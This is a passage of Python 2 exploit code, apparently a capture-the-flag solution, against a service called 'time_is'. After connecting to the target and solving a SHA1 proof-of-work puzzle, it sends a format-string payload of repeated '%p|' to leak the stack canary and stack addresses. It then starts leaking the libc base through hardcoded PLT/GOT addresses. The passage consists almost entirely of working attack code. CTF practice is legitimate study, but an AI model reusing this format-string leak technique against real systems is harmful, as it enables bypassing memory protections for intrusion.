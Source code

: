 ```python
        else:
            print h, "was close."

    return False


def go():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    ADDRESS = (HOST, PORT)
    s.connect(ADDRESS)

    # Solve the initial challenge (only if remote)
    if not TESTING_LOCAL:
        recv_until(s, "Solve a puzzle: find an x such that 26 last bits of SHA1(x) are set, len(x)==29 and x[:24]=='")
        x_first_24 = recv_until(s, "'")[:-1]
        print "Trying for x = %s_____" % x_first_24
        res = ""
        for x_last_5 in possibilities():
            x = x_first_24 + x_last_5
            if check_hash(sha1(x)):
                print "x =", x, "; sha1(x) =", sha1(x)
                res = x
                break

        # There was not solution, we need to restart
        if res == "":
            print RED("... [FAILED]")
            s.close()
            return -1
        else:
            send(s, x)

    # 1. First lets leak the whole stack
    print "**************************"
    print "*** LEAKING THE CANARY ***"
    print "**************************"
    recv_until(s, "Enter time zones separated by whitespace or q to quit\n")
    amount = 365
    send(s, "AAAAAAA" + "%p|"*(amount) + "---END")
    stack = recv_until(s, "---END").split("|")[:-1]
    # cnt = 0
    # for i in stack:
    #     print "%d: %s" % (cnt, i)
    #     cnt += 1

    canary      = stack[267]
    stack_addr  = stack[272]
    buffer_addr = int(stack[272], 16) - 2336
    print "------------------------------------"
    print "|     CANARY IS: %s|" % canary
    print "| stack_addr IS: %s    | (unused)" % stack_addr
    print "|buffer_addr IS: %s    | (unused)" % hex(buffer_addr)
    print "------------------------------------"


    # 2. Leak libc addresses
    print "\n*************************"
    print "*** LEAKING LIBC BASE ***"
    print "*************************"
    # "objdump -TR time_is" to get this plt addresses
    free_plt    = 0x603018 # free@GLIBC_2.2.5
    time_plt    = 0x603040 # time@GLIBC_2.2.5
```